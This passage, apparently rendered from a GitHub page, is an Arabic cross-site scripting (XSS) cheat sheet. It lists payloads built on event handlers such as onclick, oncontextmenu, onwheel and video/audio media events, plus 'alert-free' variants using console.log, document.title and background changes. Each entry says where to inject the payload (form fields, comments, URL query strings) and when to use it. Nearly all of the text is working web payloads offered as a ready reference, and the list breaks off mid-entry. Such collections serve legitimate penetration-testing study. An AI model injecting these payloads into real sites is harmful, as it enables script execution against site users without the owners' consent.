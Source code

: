   - **الإدخال**: أدخل في حقل: `<button onclick=alert(1)>اضغط</button>`
  - **كيف يعمل**: يُنفذ التنبيه عند النقر على الزر.
  - **متى يُستخدم؟**: لاختبار الأزرار.
- **الحقن**: `<a href="#" onclick=alert('XSS')>اضغط هنا</a>`
  - **الإدخال**: أدخل في تعليق: `<a href="#" onclick=alert('XSS')>اضغط هنا</a>`
  - **كيف يعمل**: يُنفذ التنبيه عند النقر على الرابط.
  - **متى يُستخدم؟**: لاختبار الروابط التفاعلية.
- **الحقن**: `<div oncontextmenu=alert(1)>انقر بزر الماوس الأيمن</div>`
  - **الإدخال**: أدخل في نموذج: `<div oncontextmenu=alert(1)>انقر بزر الماوس الأيمن</div>`
  - **كيف يعمل**: يُنفذ التنبيه عند النقر الأيمن.
  - **متى يُستخدم؟**: لاختبار أحداث القائمة السياقية.
- **الحقن**: `<input onkeypress=alert('XSS')>`
  - **الإدخال**: `https://example.com/search?query=<input onkeypress=alert('XSS')>`
  - **كيف يعمل**: يُنفذ التنبيه عند الضغط على مفتاح.
  - **متى يُستخدم؟**: في حقول الإدخال.
- **الحقن**: `<div onwheel=alert(1)>قم بالتمرير</div>`
  - **الإدخال**: أدخل في حقل: `<div onwheel=alert(1)>قم بالتمرير</div>`
  - **كيف يعمل**: يُنفذ التنبيه عند التمرير بالماوس.
  - **متى يُستخدم؟**: لاختبار أحداث التمرير.

#### ج. أحداث الوسائط
{ #XSS_unique_tags / #XSS--ALL--Event--Payload  }
استخدام أحداث مرتبطة بالوسائط (مثل الفيديو والصوت).
- **الحقن**: `<video onplay=alert('XSS')><source src=x></video>`
  - **الإدخال**: أدخل في تعليق: `<video onplay=alert('XSS')><source src=x></video>`
  - **كيف يعمل**: يُنفذ التنبيه عند تشغيل الفيديو.
  - **متى يُستخدم؟**: لاختبار وسوم الفيديو.
- **الحقن**: `<video onloadeddata=alert(1)><source src=x></video>`
  - **الإدخال**: أدخل في نموذج: `<video onloadeddata=alert(1)><source src=x></video>`
  - **كيف يعمل**: يُنفذ التنبيه عند تحميل بيانات الفيديو.
  - **متى يُستخدم؟**: لاختبار أحداث تحميل الوسائط.
- **الحقن**: `<audio onloadedmetadata=alert('XSS')><source src=x></audio>`
  - **الإدخال**: `https://example.com/search?query=<audio onloadedmetadata=alert('XSS')><source src=x></audio>`
  - **كيف يعمل**: يُنفذ التنبيه عند تحميل بيانات الصوت الوصفية.
  - **متى يُستخدم؟**: لاختبار وسوم الصوت.
- **الحقن**: `<video onended=alert(1)><source src=x></video>`
  - **الإدخال**: أدخل في حقل: `<video onended=alert(1)><source src=x></video>`
  - **كيف يعمل**: يُنفذ التنبيه عند انتهاء الفيديو.
  - **متى يُستخدم؟**: لاختبار أحداث انتهاء الوسائط.
- **الحقن**: `<video onpause=alert('XSS')><source src=x></video>`
  - **الإدخال**: أدخل في تعليق: `<video onpause=alert('XSS')><source src=x></video>`
  - **كيف يعمل**: يُنفذ التنبيه عند إيقاف الفيديو.
  - **متى يُستخدم؟**: لاختبار أحداث التحكم بالوسائط.

#### د. حقن بدون تنبيهات
{  #XSS_with_out_alret / #XSS_Idea_for_SVG_tag / #XSS--ALL--Event--Payload }
استخدام وسوم HTML5 وأحداث لتأكيد التنفيذ دون تنبيهات.
- **الحقن**: `<svg onload=console.log('XSS')>`
  - **الإدخال**: أدخل في حقل: `<svg onload=console.log('XSS')>`
  - **كيف يعمل**: يسجل "XSS" في وحدة التحكم عند تحميل SVG.
  - **متى يُستخدم؟**: لتأكيد التنفيذ دون إزعاج.
- **الحقن**: `<video poster=x onerror=console.error('XSS: ' + document.domain)>`
  - **الإدخال**: `https://example.com/search?query=<video poster=x onerror=console.error('XSS: ' + document.domain)>`
  - **كيف يعمل**: يسجل خطأ مع النطاق في وحدة التحكم.
  - **متى يُستخدم؟**: لتأكيد التنفيذ مع معلومات النطاق.
- **الحقن**: `<div onclick=document.title='XSS'>اضغط هنا</div>`
  - **الإدخال**: أدخل في نموذج: `<div onclick=document.title='XSS'>اضغط هنا</div>`
  - **كيف يعمل**: يغير عنوان الصفحة عند النقر.
  - **متى يُستخدم؟**: لتأكيد التنفيذ بتغيير بصري.
- **الحقن**: `<svg onload=document.body.style.background='red'>`
  - **الإدخال**: أدخل في تعليق: `<svg onload=document.body.style.background='red'>`
  - **كيف يعمل**: يغير لون الخلفية إلى الأحمر عند تحميل SVG.